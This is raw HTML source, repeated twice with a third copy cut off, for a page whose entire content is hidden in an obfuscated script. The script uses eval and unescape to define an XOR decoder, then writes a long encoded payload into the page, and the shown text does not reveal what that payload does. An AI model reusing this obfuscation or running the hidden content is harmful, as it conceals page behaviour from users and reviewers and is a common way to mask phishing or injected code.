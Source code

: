 <html>
<head>
</head>
<body>

<script type="text/javascript">
<!-- 
eval(unescape('%66%75%6e%63%74%69%6f%6e%20%66%61%39%65%63%66%32%63%65%66%63%28%73%29%20%7b%0a%09%76%61%72%20%72%20%3d%20%22%22%3b%0a%09%76%61%72%20%74%6d%70%20%3d%20%73%2e%73%70%6c%69%74%28%22%32%35%38%31%33%30%34%31%22%29%3b%0a%09%73%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%30%5d%29%3b%0a%09%6b%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%31%5d%20%2b%20%22%36%31%37%34%35%39%22%29%3b%0a%09%66%6f%72%28%20%76%61%72%20%69%20%3d%20%30%3b%20%69%20%3c%20%73%2e%6c%65%6e%67%74%68%3b%20%69%2b%2b%29%20%7b%0a%09%09%72%20%2b%3d%20%53%74%72%69%6e%67%2e%66%72%6f%6d%43%68%61%72%43%6f%64%65%28%28%70%61%72%73%65%49%6e%74%28%6b%2e%63%68%61%72%41%74%28%69%25%6b%2e%6c%65%6e%67%74%68%29%29%5e%73%2e%63%68%61%72%43%6f%64%65%41%74%28%69%29%29%2b%2d%32%29%3b%0a%09%7d%0a%09%72%65%74%75%72%6e%20%72%3b%0a%7d%0a'));
eval(unescape('%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%66%61%39%65%63%66%32%63%65%66%63%28%27') + '%3a%6f%74%6a%6e%41%09%0a%3f%6d%31%27%62%62%3a%26%73%6b%77%68%61%25%25%71%73%72%6a%62%3d%21%6f%62%72%6f%6a%77%38%27%3b%26%66%75%73%71%3c%70%61%7b%71%2b%66%67%6f%6c%72%39%22%64%61%76%77%60%70%38%2d%44%4a%4b%46%22%45%45%4f%50%57%4d%27%5f%50%52%57%53%22%4f%4d%56%46%52%26%61%72%26%42%64%6a%63%75%38%37%6b%32%44%0a%05%3a%6f%37%27%6b%67%39%22%77%6c%72%6b%6e%20%27%77%73%7b%6f%61%39%25%68%67%71%60%6f%75%3e%27%32%23%65%71%77%76%39%73%6e%7e%73%2d%66%6e%6a%6f%76%3d%25%61%62%79%72%62%76%38%24%41%40%5d%50%53%26%2a%2b%42%74%20%5e%71%76%72%24%50%7e%74%27%5d%63%70%65%66%74%64%6c%36%23%5c%75%72%7d%26%74%7b%75%22%67%61%63%6a%72%6f%74%79%2a%27%61%60%76%6a%77%76%23%64%74%63%2b%70%62%77%77%71%71%73%6d%65%6c%6a%6e%7f%7f%35%20%43%6b%62%69%77%71%61%26%6f%6a%74%63%77%26%22%57%7f%6d%77%71%63%71%48%26%4e%2d%43%5b%50%52%24%6e%76%26%75%6a%26%7e%61%75%22%62%62%65%22%25%3a%34%63%31%45%0d%09%22%23%09%0a%23%25%3a%63%62%7c%27%77%73%7b%6f%61%39%25%71%63%7f%7f%2b%66%6c%6e%69%71%3a%24%64%60%74%73%6e%70%38%26%45%56%76%69%65%77%64%74%6c%60%67%77%20%75%69%23%50%6d%73%25%69%66%63%6f%73%20%61%77%77%65%68%23%28%2b%45%49%26%3b%61%27%6a%75%61%6e%3e%23%6e%73%7f%76%70%3e%34%31%7b%71%69%6e%37%67%77%7b%35%63%65%73%67%64%70%37%75%60%77%72%6e%71%73%3e%71%44%70%7e%5e%57%30%49%30%4e%62%6a%73%4f%64%7b%3d%4f%39%43%67%6a%65%54%41%4c%57%4e%48%7e%7d%56%32%63%21%49%55%77%65%75%22%78%6d%70%6b%25%7e%72%66%6b%3b%33%66%40%3f%37%60%6a%7f%44%0a%05%26%27%0d%09%22%23%38%60%6a%7f%26%60%67%67%70%77%3a%24%6f%77%65%67%60%70%21%2b%71%73%79%6b%67%3e%22%69%62%73%6d%6e%79%38%27%30%27%63%76%70%77%3c%23%44%3b%38%62%6e%7a%45%0f%0d%09%0a%3f%71%67%61%67%63%27%67%6b%63%74%73%39%25%62%63%75%7f%63%71%26%45%0f%0d%24%24%3f%71%70%45%06%08%27%20%27%22%3f%70%60%41%39%76%27%62%62%3a%26%75%67%78%50%77%6c%60%74%70%2d%44%3b%33%77%40%3f%37%70%67%47%0b%09%2b%26%3b%33%73%74%41%09%0a%23%25%3a%70%6c%70%6e%70%73%40%0e%0a%24%23%7f%67%71%2b%41%4f%45%40%4d%46%40%67%4f%4c%51%53%2b%3b%27%5f%5a%3d%0e%0a%70%70%61%67%7e%2b%3b%27%72%62%79%23%40%65%77%60%2e%2e%34%26%73%73%63%63%7a%36%73%66%71%4e%74%7e%70%70%28%37%2b%3c%24%70%70%61%67%7e%39%71%62%74%4a%6b%71%71%70%66%72%2e%37%22%39%27%74%74%66%62%7d%36%74%60%72%50%6e%61%74%72%63%75%2b%34%2d%3c%08%08%6d%7e%74%60%74%6e%71%71%24%6c%77%71%76%4c%6e%72%2f%74%6f%67%56%72%68%2a%08%08%78%06%08%27%20%27%22%79%65%72%23%7d%6b%6b%43%72%73%70%27%3f%23%76%61%78%25%5e%4a%47%4e%73%74%77%54%66%75%71%66%72%72%2f%22%39%0a%0e%27%22%23%24%7c%6e%69%4e%73%7f%76%35%73%77%67%71%2c%24%25%4e%43%53%2d%2a%27%74%6f%67%56%72%68%2f%25%6c%66%67%71%62%20%2e%3d%23%37%37%23%6f%67%6b%7c%63%27%6a%74%74%23%73%7d%71%62%6e%71%78%74%74%75%70%22%75%61%75%76%60%71%73%06%08%27%20%27%22%7b%69%68%4b%71%72%77%39%71%62%72%63%2a%23%76%71%6f%69%26%2e%34%0b%09%20%27%22%23%72%61%77%70%70%75%2b%7e%6a%6c%4f%76%77%74%36%75%60%71%77%78%74%70%65%53%67%7b%70%3b%0e%0b%7b%0a%05%0b%09%6a%72%70%64%70%6d%70%77%26%6c%6e%72%40%75%71%74%66%76%63%7a%42%75%63%6e%2e%62%29%0a%0c%7c%09%0a%23%25%26%27%62%6c%27%28%62%2b%23%7b%09%0d%25%26%27%2b%26%27%20%27%6b%69%24%2c%37%35%26%3a%36%26%62%32%6b%67%71%6f%70%6b%25%2c%2d%2b%63%35%65%75%66%74%5f%6d%77%6d%2e%21%3b%36%21%29%2e%22%7c%09%0a%23%25%26%27%2b%26%27%20%27%22%23%24%7f%6b%6c%6a%62%23%63%35%65%75%66%74%5f%6d%77%6d%2e%21%3b%36%21%29%2e%22%7c%09%0a%23%25%26%27%2b%26%27%20%27%22%23%24%24%23%25%26%62%2b%3b%27%65%35%75%76%62%73%77%73%6f%75%60%2e%37%2c%27%67%31%68%61%71%6e%72%6f%2b%2b%27%36%2e%3d%23%09%0a%23%25%26%27%2b%26%27%20%27%22%23%24%79%23%25%26%0a%05%26%27%20%27%22%23%24%24%23%25%26%27%7d%63%73%75%71%70%23%6c%61%7b%33%67%2f%6e%2f%38%0d%09%22%23%24%24%23%25%26%27%76%0b%09%20%27%22%23%24%24%23%25%70%62%7f%73%71%72%27%67%0e%0a%24%23%25%26%7a%06%08%27%20%27%22%75%61%70%76%73%74%27%2d%20%0a%0e%7a%0f%0d%09%0a%69%70%74%60%7f%6f%74%72%27%6a%66%7c%32%62%2d%6e%62%73%7e%2e%20%78%0f%0d%24%24%23%25%7c%66%7d%26%6f%65%7f%22%3e%24%6c%66%7d%7e%35%7f%75%50%74%71%6b%71%6f%2c%2a%3a%35%34%61%75%71%67%62%22%64%77%76%79%60%70%70%62%75%75%0d%09%22%23%24%24%79%64%70%27%7c%72%71%20%3a%22%28%2f%3b%0e%0b%26%27%2b%26%6d%73%71%22%2b%7e%65%75%25%6f%27%36%26%37%3f%27%6b%23%38%24%6b%60%7e%35%67%63%75%6b%73%6a%3c%24%6d%23%2a%3b%27%3d%2f%0a%0e%27%22%23%24%24%23%25%26%70%7f%70%27%2f%3a%22%54%70%72%6a%77%6d%35%61%70%74%6d%40%6a%62%72%43%70%61%63%2f%7b%67%71%77%62%4b%71%70%2c%6b%60%7e%35%7c%73%61%77%73%74%2b%6d%28%23%33%2f%2b%2b%37%3d%29%2e%3d%0e%0a%24%23%25%26%71%6e%72%72%76%75%22%74%70%72%3c%08%08%7a%06%08%0a%0e%6d%77%71%63%70%6a%76%74%27%60%63%73%52%62%79%57%77%6b%66%77%71%2f%22%26%78%0d%09%22%23%63%77%71%72%75%6b%6e%34%6b%73%6c%2a%25%53%50%42%53%52%21%22%39%0a%0e%0a%0c%23%24%53%77%73%6f%75%60%34%77%76%74%76%70%70%7d%73%60%34%6e%79%4a%6e%77%73%3f%69%71%76%64%71%6f%74%79%2e%6b%69%70%76%2a%7b%09%0d%25%26%27%2b%70%62%74%72%74%71%24%2c%6f%6c%71%73%39%6f%75%64%62%7a%50%6e%2c%77%6d%6f%70%39%72%74%57%73%74%6a%76%6f%2b%2c%2f%27%2a%3b%27%2d%36%2b%0e%0a%24%23%78%0b%09%06%08%27%20%73%71%6c%61%76%74%25%3b%27%45%51%54%52%35%72%62%72%73%66%2d%6e%73%7f%76%4c%65%73%2a%25%6c%70%77%75%71%39%38%35%66%70%6e%30%7b%72%74%6f%61%67%73%6a%34%60%73%6a%31%62%74%6d%30%7f%37%34%7f%75%68%65%75%75%25%2d%2d%3c%08%08%27%2b%7c%66%76%27%76%70%70%65%6f%25%3b%27%3b%39%0a%0e%27%22%79%65%72%23%64%6a%6b%47%6f%75%6f%27%3f%23%2f%2f%3c%08%08%27%2b%7c%66%76%27%70%66%7f%50%70%6a%63%75%7c%26%3a%20%2c%29%3c%09%0a%23%25%6c%74%7d%2e%7d%61%71%22%77%77%6b%66%77%26%6e%79%26%73%73%68%67%71%73%36%6a%72%71%72%6e%70%70%29%27%7d%0e%0a%24%23%25%26%27%2b%7c%66%76%27%65%76%72%72%66%77%61%7e%4c%75%63%65%27%3f%23%6f%61%77%42%73%71%7d%63%75%67%7e%45%70%60%61%2b%71%75%68%6e%74%70%32%6e%75%74%71%61%75%72%59%73%78%69%62%72%5a%30%77%77%6b%66%77%71%58%3b%5b%35%67%72%74%75%61%76%64%7c%2f%38%06%08%27%20%27%22%23%24%7e%62%73%26%60%7d%63%66%74%62%66%47%65%70%66%25%3b%27%79%63%7c%20%43%63%77%61%2c%47%64%72%62%39%76%66%76%70%67%2b%70%77%6c%60%74%70%39%6f%70%77%72%67%75%73%5b%77%76%69%62%79%5b%35%74%74%6d%66%76%73%5c%35%5b%35%6c%70%62%61%73%67%67%36%60%62%71%63%2e%22%39%0a%0e%27%22%23%24%24%23%6c%6c%2f%6c%70%62%61%73%67%67%40%65%77%60%26%45%2b%72%74%64%66%7b%23%2e%2e%23%42%4e%42%4c%49%42%44%64%4e%4a%53%50%31%6c%74%63%6e%7e%54%6a%2f%65%76%72%72%66%77%61%7e%4c%75%63%65%2e%22%3e%39%24%2e%34%2f%27%74%0b%09%20%27%22%23%24%24%23%25%26%27%7f%75%73%61%6b%2d%2c%09%0a%23%25%26%27%2b%26%27%20%27%22%79%65%72%23%64%6b%74%7e%74%73%20%3a%22%77%77%6b%66%77%71%35%62%71%70%75%62%74%74%5b%70%70%6a%63%75%56%34%73%73%68%67%71%73%5b%33%58%34%66%66%75%72%72%73%3d%0e%0a%24%23%25%26%27%2b%26%27%20%27%78%62%72%24%76%73%6a%27%36%26%2c%68%73%76%73%73%3a%30%36%7e%72%66%6b%35%67%74%6f%6e%71%76%6a%71%7f%34%48%6f%70%77%72%67%75%39%2f%2c%25%72%74%64%63%75%20%28%22%25%2e%63%76%73%70%62%79%61%7e%3d%21%22%2c%24%63%76%73%70%62%79%61%7e%47%74%66%66%24%2b%23%2e%2c%6b%62%6b%6e%74%3a%29%23%2b%24%62%68%75%72%79%72%38%0d%09%22%23%24%24%23%25%26%27%2b%26%0a%0e%27%22%23%24%24%23%25%26%27%2b%7c%66%76%27%6d%7a%63%24%3e%25%72%74%64%63%75%77%35%6b%74%73%71%66%73%71%58%7f%75%68%65%75%5f%31%60%65%77%64%34%68%72%61%27%43%27%29%5a%41%53%28%25%38%27%20%54%54%2b%0a%0c%23%24%24%23%25%26%27%2b%26%27%61%6b%6e%4f%6d%76%6c%25%3b%27%6a%6a%6b%4c%6e%70%6c%24%2b%23%2e%65%64%68%65%64%63%64%61%60%67%67%60%66%65%64%68%65%64%44%5e%51%55%24%24%23%25%26%27%20%26%27%2f%27%22%77%77%70%62%69%26%28%2b%2d%3b%66%71%40%28%09%0a%23%25%26%27%2b%26%27%20%27%22%23%24%24%23%25%26%27%2b%26%27%20%27%22%23%24%24%23%25%29%27%20%41%72%76%71%67%71%63%7d%3d%25%22%2c%2b%29%27%67%72%74%75%61%76%64%7c%41%74%6f%63%27%2f%27%29%3f%62%72%41%2e%26%28%2b%2d%48%59%40%3c%23%2f%24%2c%25%69%7e%6c%26%28%20%2c%3e%65%72%46%28%08%08%27%2b%26%27%20%27%22%23%24%24%23%25%26%27%2b%26%27%20%27%22%23%24%24%23%25%26%27%2b%29%27%2b%40%74%66%65%70%66%61%26%63%6a%72%62%3e%27%29%23%2b%24%64%73%63%66%7f%63%63%44%66%76%66%24%2b%23%2e%26%7b%2b%2d%27%2f%27%29%57%77%70%62%69%26%73%7d%73%70%74%6b%6b%71%61%3a%23%2e%26%28%2b%72%74%6f%62%70%74%36%6d%74%72%73%62%7d%71%58%74%74%6d%66%76%59%31%71%75%68%6e%74%70%5f%37%5f%31%70%72%76%72%72%6b%62%74%62%77%27%2d%23%2f%38%65%73%44%2c%06%08%27%20%27%22%23%24%24%23%25%26%27%2b%26%27%20%27%22%23%24%24%23%25%26%27%2b%26%27%20%28%22%28%48%4d%51%4a%38%27%20%26%28%20%72%74%6f%36%68%6a%77%69%2f%7e%70%6b%29%27%2d%23%2f%38%65%73%44%2c%34%0b%09%20%27%22%23%24%24%7e%08%08%27%2b%7b%0a%0e%27%22%23%60%77%64%70%6b%62%79%72%35%6b%62%76%46%68%61%6e%60%74%73%4d%7f%4e%64%2f%24%71%61%7f%57%76%69%62%79%71%21%29%35%6b%71%76%61%75%4d%52%4a%47%26%3a%20%66%6e%6f%48%6d%71%6a%39%0a%05%26%27%67%74%70%74%77%68%66%37%6a%74%60%2e%2c%45%55%46%28%2d%3b%0e%0b%7b%0a%05%6d%62%74%55%67%78%50%77%6c%60%74%70%23%2f%38%0d%09%75%66%70%4d%71%71%63%71%71%67%6b%28%6c%67%77%56%61%78%51%75%68%6e%74%70%2c%27%36%36%34%34%33%2c%39%0a%05%3a%34%77%60%74%6a%74%70%4125813041%34%35%32%35%30%31%36' + unescape('%27%29%29%3b'));
// -->
</script>
<noscript><i>Javascript required</i></noscript>

</body>
</html>

<html>
<head>
</head>
<body>

<script type="text/javascript">
<!-- 
eval(unescape('%66%75%6e%63%74%69%6f%6e%20%66%61%39%65%63%66%32%63%65%66%63%28%73%29%20%7b%0a%09%76%61%72%20%72%20%3d%20%22%22%3b%0a%09%76%61%72%20%74%6d%70%20%3d%20%73%2e%73%70%6c%69%74%28%22%32%35%38%31%33%30%34%31%22%29%3b%0a%09%73%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%30%5d%29%3b%0a%09%6b%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%31%5d%20%2b%20%22%36%31%37%34%35%39%22%29%3b%0a%09%66%6f%72%28%20%76%61%72%20%69%20%3d%20%30%3b%20%69%20%3c%20%73%2e%6c%65%6e%67%74%68%3b%20%69%2b%2b%29%20%7b%0a%09%09%72%20%2b%3d%20%53%74%72%69%6e%67%2e%66%72%6f%6d%43%68%61%72%43%6f%64%65%28%28%70%61%72%73%65%49%6e%74%28%6b%2e%63%68%61%72%41%74%28%69%25%6b%2e%6c%65%6e%67%74%68%29%29%5e%73%2e%63%68%61%72%43%6f%64%65%41%74%28%69%29%29%2b%2d%32%29%3b%0a%09%7d%0a%09%72%65%74%75%72%6e%20%72%3b%0a%7d%0a'));
eval(unescape('%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%66%61%39%65%63%66%32%63%65%66%63%28%27') + '%3a%6f%74%6a%6e%41%09%0a%3f%6d%31%27%62%62%3a%26%73%6b%77%68%61%25%25%71%73%72%6a%62%3d%21%6f%62%72%6f%6a%77%38%27%3b%26%66%75%73%71%3c%70%61%7b%71%2b%66%67%6f%6c%72%39%22%64%61%76%77%60%70%38%2d%44%4a%4b%46%22%45%45%4f%50%57%4d%27%5f%50%52%57%53%22%4f%4d%56%46%52%26%61%72%26%42%64%6a%63%75%38%37%6b%32%44%0a%05%3a%6f%37%27%6b%67%39%22%77%6c%72%6b%6e%20%27%77%73%7b%6f%61%39%25%68%67%71%60%6f%75%3e%27%32%23%65%71%77%76%39%73%6e%7e%73%2d%66%6e%6a%6f%76%3d%25%61%62%79%72%62%76%38%24%41%40%5d%50%53%26%2a%2b%42%74%20%5e%71%76%72%24%50%7e%74%27%5d%63%70%65%66%74%64%6c%36%23%5c%75%72%7d%26%74%7b%75%22%67%61%63%6a%72%6f%74%79%2a%27%61%60%76%6a%77%76%23%64%74%63%2b%70%62%77%77%71%71%73%6d%65%6c%6a%6e%7f%7f%35%20%43%6b%62%69%77%71%61%26%6f%6a%74%63%77%26%22%57%7f%6d%77%71%63%71%48%26%4e%2d%43%5b%50%52%24%6e%76%26%75%6a%26%7e%61%75%22%62%62%65%22%25%3a%34%63%31%45%0d%09%22%23%09%0a%23%25%3a%63%62%7c%27%77%73%7b%6f%61%39%25%71%63%7f%7f%2b%66%6c%6e%69%71%3a%24%64%60%74%73%6e%70%38%26%45%56%76%69%65%77%64%74%6c%60%67%77%20%75%69%23%50%6d%73%25%69%66%63%6f%73%20%61%77%77%65%68%23%28%2b%45%49%26%3b%61%27%6a%75%61%6e%3e%23%6e%73%7f%76%70%3e%34%31%7b%71%69%6e%37%67%77%7b%35%63%65%73%67%64%70%37%75%60%77%72%6e%71%73%3e%71%44%70%7e%5e%57%30%49%30%4e%62%6a%73%4f%64%7b%3d%4f%39%43%67%6a%65%54%41%4c%57%4e%48%7e%7d%56%32%63%21%49%55%77%65%75%22%78%6d%70%6b%25%7e%72%66%6b%3b%33%66%40%3f%37%60%6a%7f%44%0a%05%26%27%0d%09%22%23%38%60%6a%7f%26%60%67%67%70%77%3a%24%6f%77%65%67%60%70%21%2b%71%73%79%6b%67%3e%22%69%62%73%6d%6e%79%38%27%30%27%63%76%70%77%3c%23%44%3b%38%62%6e%7a%45%0f%0d%09%0a%3f%71%67%61%67%63%27%67%6b%63%74%73%39%25%62%63%75%7f%63%71%26%45%0f%0d%24%24%3f%71%70%45%06%08%27%20%27%22%3f%70%60%41%39%76%27%62%62%3a%26%75%67%78%50%77%6c%60%74%70%2d%44%3b%33%77%40%3f%37%70%67%47%0b%09%2b%26%3b%33%73%74%41%09%0a%23%25%3a%70%6c%70%6e%70%73%40%0e%0a%24%23%7f%67%71%2b%41%4f%45%40%4d%46%40%67%4f%4c%51%53%2b%3b%27%5f%5a%3d%0e%0a%70%70%61%67%7e%2b%3b%27%72%62%79%23%40%65%77%60%2e%2e%34%26%73%73%63%63%7a%36%73%66%71%4e%74%7e%70%70%28%37%2b%3c%24%70%70%61%67%7e%39%71%62%74%4a%6b%71%71%70%66%72%2e%37%22%39%27%74%74%66%62%7d%36%74%60%72%50%6e%61%74%72%63%75%2b%34%2d%3c%08%08%6d%7e%74%60%74%6e%71%71%24%6c%77%71%76%4c%6e%72%2f%74%6f%67%56%72%68%2a%08%08%78%06%08%27%20%27%22%79%65%72%23%7d%6b%6b%43%72%73%70%27%3f%23%76%61%78%25%5e%4a%47%4e%73%74%77%54%66%75%71%66%72%72%2f%22%39%0a%0e%27%22%23%24%7c%6e%69%4e%73%7f%76%35%73%77%67%71%2c%24%25%4e%43%53%2d%2a%27%74%6f%67%56%72%68%2f%25%6c%66%67%71%62%20%2e%3d%23%37%37%23%6f%67%6b%7c%63%27%6a%74%74%23%73%7d%71%62%6e%71%78%74%74%75%70%22%75%61%75%76%60%71%73%06%08%27%20%27%22%7b%69%68%4b%71%72%77%39%71%62%72%63%2a%23%76%71%6f%69%26%2e%34%0b%09%20%27%22%23%72%61%77%70%70%75%2b%7e%6a%6c%4f%76%77%74%36%75%60%71%77%78%74%70%65%53%67%7b%70%3b%0e%0b%7b%0a%05%0b%09%6a%72%70%64%70%6d%70%77%26%6c%6e%72%40%75%71%74%66%76%63%7a%42%75%63%6e%2e%62%29%0a%0c%7c%09%0a%23%25%26%27%62%6c%27%28%62%2b%23%7b%09%0d%25%26%27%2b%26%27%20%27%6b%69%24%2c%37%35%26%3a%36%26%62%32%6b%67%71%6f%70%6b%25%2c%2d%2b%63%35%65%75%66%74%5f%6d%77%6d%2e%21%3b%36%21%29%2e%22%7c%09%0a%23%25%26%27%2b%26%27%20%27%22%23%24%7f%6b%6c%6a%62%23%63%35%65%75%66%74%5f%6d%77%6d%2e%21%3b%36%21%29%2e%22%7c%09%0a%23%25%26%27%2b%26%27%20%27%22%23%24%24%23%25%26%62%2b%3b%27%65%35%75%76%62%73%77%73%6f%75%60%2e%37%2c%27%67%31%68%61%71%6e%72%6f%2b%2b%27%36%2e%3d%23%09%0a%23%25%26%27%2b%26%27%20%27%22%23%24%79%23%25%26%0a%05%26%27%20%27%22%23%24%24%23%25%26%27%7d%63%73%75%71%70%23%6c%61%7b%33%67%2f%6e%2f%38%0d%09%22%23%24%24%23%25%26%27%76%0b%09%20%27%22%23%24%24%23%25%70%62%7f%73%71%72%27%67%0e%0a%24%23%25%26%7a%06%08%27%20%27%22%75%61%70%76%73%74%27%2d%20%0a%0e%7a%0f%0d%09%0a%69%70%74%60%7f%6f%74%72%27%6a%66%7c%32%62%2d%6e%62%73%7e%2e%20%78%0f%0d%24%24%23%25%7c%66%7d%26%6f%65%7f%22%3e%24%6c%66%7d%7e%35%7f%75%50%74%71%6b%71%6f%2c%2a%3a%35%34%61%75%71%67%62%22%64%77%76%79%60%70%70%62%75%75%0d%09%22%23%24%24%79%64%70%27%7c%72%71%20%3a%22%28%2f%3b%0e%0b%26%27%2b%26%6d%73%71%22%2b%7e%65%75%25%6f%27%36%26%37%3f%27%6b%23%38%24%6b%60%7e%35%67%63%75%6b%73%6a%3c%24%6d%23%2a%3b%27%3d%2f%0a%0e%27%22%23%24%24%23%25%26%70%7f%70%27%2f%3a%22%54%70%72%6a%77%6d%35%61%70%74%6d%40%6a%62%72%43%70%61%63%2f%7b%67%71%77%62%4b%71%70%2c%6b%60%7e%35%7c%73%61%77%73%74%2b%6d%28%23%33%2f%2b%2b%37%3d%29%2e%3d%0e%0a%24%23%25%26%71%6e%72%72%76%75%22%74%70%72%3c%08%08%7a%06%08%0a%0e%6d%77%71%63%70%6a%76%74%27%60%63%73%52%62%79%57%77%6b%66%77%71%2f%22%26%78%0d%09%22%23%63%77%71%72%75%6b%6e%34%6b%73%6c%2a%25%53%50%42%53%52%21%22%39%0a%0e%0a%0c%23%24%53%77%73%6f%75%60%34%77%76%74%76%70%70%7d%73%60%34%6e%79%4a%6e%77%73%3f%69%71%76%64%71%6f%74%79%2e%6b%69%70%76%2a%7b%09%0d%25%26%27%2b%70%62%74%72%74%71%24%2c%6f%6c%71%73%39%6f%75%64%62%7a%50%6e%2c%77%6d%6f%70%39%72%74%57%73%74%6a%76%6f%2b%2c%2f%27%2a%3b%27%2d%36%2b%0e%0a%24%23%78%0b%09%06%08%27%20%73%71%6c%61%76%74%25%3b%27%45%51%54%52%35%72%62%72%73%66%2d%6e%73%7f%76%4c%65%73%2a%25%6c%70%77%75%71%39%38%35%66%70%6e%30%7b%72%74%6f%61%67%73%6a%34%60%73%6a%31%62%74%6d%30%7f%37%34%7f%75%68%65%75%75%25%2d%2d%3c%08%08%27%2b%7c%66%76%27%76%70%70%65%6f%25%3b%27%3b%39%0a%0e%27%22%79%65%72%23%64%6a%6b%47%6f%75%6f%27%3f%23%2f%2f%3c%08%08%27%2b%7c%66%76%27%70%66%7f%50%70%6a%63%75%7c%26%3a%20%2c%29%3c%09%0a%23%25%6c%74%7d%2e%7d%61%71%22%77%77%6b%66%77%26%6e%79%26%73%73%68%67%71%73%36%6a%72%71%72%6e%70%70%29%27%7d%0e%0a%24%23%25%26%27%2b%7c%66%76%27%65%76%72%72%66%77%61%7e%4c%75%63%65%27%3f%23%6f%61%77%42%73%71%7d%63%75%67%7e%45%70%60%61%2b%71%75%68%6e%74%70%32%6e%75%74%71%61%75%72%59%73%78%69%62%72%5a%30%77%77%6b%66%77%71%58%3b%5b%35%67%72%74%75%61%76%64%7c%2f%38%06%08%27%20%27%22%23%24%7e%62%73%26%60%7d%63%66%74%62%66%47%65%70%66%25%3b%27%79%63%7c%20%43%63%77%61%2c%47%64%72%62%39%76%66%76%70%67%2b%70%77%6c%60%74%70%39%6f%70%77%72%67%75%73%5b%77%76%69%62%79%5b%35%74%74%6d%66%76%73%5c%35%5b%35%6c%70%62%61%73%67%67%36%60%62%71%63%2e%22%39%0a%0e%27%22%23%24%24%23%6c%6c%2f%6c%70%62%61%73%67%67%40%65%77%60%26%45%2b%72%74%64%66%7b%23%2e%2e%23%42%4e%42%4c%49%42%44%64%4e%4a%53%50%31%6c%74%63%6e%7e%54%6a%2f%65%76%72%72%66%77%61%7e%4c%75%63%65%2e%22%3e%39%24%2e%34%2f%27%74%0b%09%20%27%22%23%24%24%23%25%26%27%7f%75%73%61%6b%2d%2c%09%0a%23%25%26%27%2b%26%27%20%27%22%79%65%72%23%64%6b%74%7e%74%73%20%3a%22%77%77%6b%66%77%71%35%62%71%70%75%62%74%74%5b%70%70%6a%63%75%56%34%73%73%68%67%71%73%5b%33%58%34%66%66%75%72%72%73%3d%0e%0a%24%23%25%26%27%2b%26%27%20%27%78%62%72%24%76%73%6a%27%36%26%2c%68%73%76%73%73%3a%30%36%7e%72%66%6b%35%67%74%6f%6e%71%76%6a%71%7f%34%48%6f%70%77%72%67%75%39%2f%2c%25%72%74%64%63%75%20%28%22%25%2e%63%76%73%70%62%79%61%7e%3d%21%22%2c%24%63%76%73%70%62%79%61%7e%47%74%66%66%24%2b%23%2e%2c%6b%62%6b%6e%74%3a%29%23%2b%24%62%68%75%72%79%72%38%0d%09%22%23%24%24%23%25%26%27%2b%26%0a%0e%27%22%23%24%24%23%25%26%27%2b%7c%66%76%27%6d%7a%63%24%3e%25%72%74%64%63%75%77%35%6b%74%73%71%66%73%71%58%7f%75%68%65%75%5f%31%60%65%77%64%34%68%72%61%27%43%27%29%5a%41%53%28%25%38%27%20%54%54%2b%0a%0c%23%24%24%23%25%26%27%2b%26%27%61%6b%6e%4f%6d%76%6c%25%3b%27%6a%6a%6b%4c%6e%70%6c%24%2b%23%2e%65%64%68%65%64%63%64%61%60%67%67%60%66%65%64%68%65%64%44%5e%51%55%24%24%23%25%26%27%20%26%27%2f%27%22%77%77%70%62%69%26%28%2b%2d%3b%66%71%40%28%09%0a%23%25%26%27%2b%26%27%20%27%22%23%24%24%23%25%26%27%2b%26%27%20%27%22%23%24%24%23%25%29%27%20%41%72%76%71%67%71%63%7d%3d%25%22%2c%2b%29%27%67%72%74%75%61%76%64%7c%41%74%6f%63%27%2f%27%29%3f%62%72%41%2e%26%28%2b%2d%48%59%40%3c%23%2f%24%2c%25%69%7e%6c%26%28%20%2c%3e%65%72%46%28%08%08%27%2b%26%27%20%27%22%23%24%24%23%25%26%27%2b%26%27%20%27%22%23%24%24%23%25%26%27%2b%29%27%2b%40%74%66%65%70%66%61%26%63%6a%72%62%3e%27%29%23%2b%24%64%73%63%66%7f%63%63%44%66%76%66%24%2b%23%2e%26%7b%2b%2d%27%2f%27%29%57%77%70%62%69%26%73%7d%73%70%74%6b%6b%71%61%3a%23%2e%26%28%2b%72%74%6f%62%70%74%36%6d%74%72%73%62%7d%71%58%74%74%6d%66%76%59%31%71%75%68%6e%74%70%5f%37%5f%31%70%72%76%72%72%6b%62%74%62%77%27%2d%23%2f%38%65%73%44%2c%06%08%27%20%27%22%23%24%24%23%25%26%27%2b%26%27%20%27%22%23%24%24%23%25%26%27%2b%26%27%20%28%22%28%48%4d%51%4a%38%27%20%26%28%20%72%74%6f%36%68%6a%77%69%2f%7e%70%6b%29%27%2d%23%2f%38%65%73%44%2c%34%0b%09%20%27%22%23%24%24%7e%08%08%27%2b%7b%0a%0e%27%22%23%60%77%64%70%6b%62%79%72%35%6b%62%76%46%68%61%6e%60%74%73%4d%7f%4e%64%2f%24%71%61%7f%57%76%69%62%79%71%21%29%35%6b%71%76%61%75%4d%52%4a%47%26%3a%20%66%6e%6f%48%6d%71%6a%39%0a%05%26%27%67%74%70%74%77%68%66%37%6a%74%60%2e%2c%45%55%46%28%2d%3b%0e%0b%7b%0a%05%6d%62%74%55%67%78%50%77%6c%60%74%70%23%2f%38%0d%09%75%66%70%4d%71%71%63%71%71%67%6b%28%6c%67%77%56%61%78%51%75%68%6e%74%70%2c%27%36%36%34%34%33%2c%39%0a%05%3a%34%77%60%74%6a%74%70%4125813041%34%35%32%35%30%31%36' + unescape('%27%29%29%3b'));
// -->
</script>
<noscript><i>Javascript required</i></noscript>

</body>
</html>

<html>
<head>
</head>
<body>

<script type="text/javascript">
<!-- 
